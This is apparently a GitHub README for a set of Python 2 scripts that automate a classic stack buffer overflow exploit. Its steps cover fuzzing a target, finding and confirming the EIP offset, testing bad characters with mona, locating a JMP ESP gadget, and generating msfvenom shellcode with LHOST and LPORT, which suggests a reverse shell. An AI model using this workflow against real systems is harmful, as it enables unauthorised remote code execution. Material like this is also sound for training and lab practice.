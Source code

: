 # bof_scripts
Python2 scripts for Stack Buffer Overflows

## Dependencies
1. msfvenom
2. python2
3. pattern_offset.rb

## Usage

### Initialization

1. Set `RHOST` and `RPORT` in `config.py` according to the target

### 1_fuzz.py

1. Modify `config.py` to have a working connect function
2. `./1_fuzz.py`
3. Update `BUFT` in `config.py` to be slightly larger than the crashed bytes.

### 2_find_offset.py

1. `./2_find_offset.py`
2. Copy the EIP address and find the offset with `./pattern_offset.rb -q EIP_ADDRESS`

### 3_confirm_offset.py

1. Modify `OFFSET` of `config.py` to have the value found in the previous step
2. `./3_confirm_offset.py`
3. ESP should point to `CCCC`. If not, keep modifying `NO_B`, `NO_C` and `NO_Z` in `config.py`.

### 4_badchars.py

1. Modify `config.py` and make sure that initially, `BADCHARS=[0x00,0x0A]`
2. `./4_badchars.py`
3. Copy `bad.bin` generated to target machine
4. !mona compare -a esp -f c:\path\to\bad.bin
5. Again modify `config.py` to add additional `BADCHARS`

### 5_jmp_esp.py

1. Find a suitable "\ff\e4"
2. Modify `JMPESP` in `config.py`
3. `./5_jmp_esp.py`
4. Observe debugger and `INT 3` in disassembler

### 6_shellcode.sh

1. `/6_shellcode.sh '<BADCHARS>' <LHOST> <LPORT>` where BADCHARS must be in form of \x00\x0A..

### 7_exploit.py 

1. `./7_exploit.py`
